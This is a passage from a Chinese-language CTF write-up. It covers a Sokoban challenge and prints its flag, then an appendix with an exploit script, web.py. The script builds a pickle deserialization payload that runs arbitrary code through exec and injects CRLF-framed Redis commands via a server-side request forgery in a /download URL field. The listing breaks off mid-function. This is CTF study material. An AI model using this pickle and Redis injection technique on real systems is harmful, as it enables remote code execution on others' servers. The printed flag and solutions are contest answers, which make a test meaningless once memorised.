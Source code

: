 然后写了个 emoji 到标准格式的转换，和一个操作 `lrdu` 到 `wasd` 的转换。

3-6 和 3-9 实在解决不了，在网上找各种推箱子关列表找到 3-6 是 Sasquatch II 第 9 关，3-9 是 Sasquatch VI 第 40 关，然后在网上找到推箱子数据库里面：

- 3-6: <http://ysokoban.atspace.eu/sdb/levels/lvl1xnqsethcf.html>
- 3-9: <http://ysokoban.atspace.eu/sdb/levels/lvltm54qk5qs.html>

随便解析一下这个格式，再处理一下地图方向不同和初始位置不同就好了。

好像 3-9 获得 flag 碎片之前连接就断开了，原因不明，不过不重要，反正知道是 `}`。

`flag = THUCTF{Y0U-4re_7h3___SOkO6@n~Maa$t3r!:)}`

# 附录：代码

`web.py`

```python
import requests
import random
import time
import pickle

def payload(pycode):
    class Payload:
        def __reduce__(self):
            return (exec, (pycode,))

    return pickle.dumps(Payload())

with open('web_exp.py') as f:
    my_payload = payload(f.read())

BASE = 'http://47.93.12.191:7002'

content_type = { 'Content-type': 'application/x-www-form-urlencoded' }

sess = requests.Session()

loginresp = sess.post(BASE + '/login', data='username=1234', headers=content_type)
print(loginresp)
print(sess.cookies)

secret = 'test103632067033465138810'
print('The secret is:', secret)

def gen(args):
    piece = lambda p: b'$' + str(len(p)).encode() + b'\r\n' + (p if isinstance(p, bytes) else p.encode()) + b'\r\n'
    return b'*' + str(len(args)).encode() + b'\r\n' + b''.join(map(piece, args))

REDIS = 'http://127.0.0.1:6379/'

def command(args):
    cmd = (REDIS + secret + '\r\n').encode() + gen(args)

    print(repr(cmd))

    while True:
        retry_time = 2
        try:
            resp = sess.post(BASE + '/download', data={ 'url': cmd })
            break
        except requests.exceptions.ConnectionError as e:
            print('retry...', e)
            time.sleep(retry_time)
```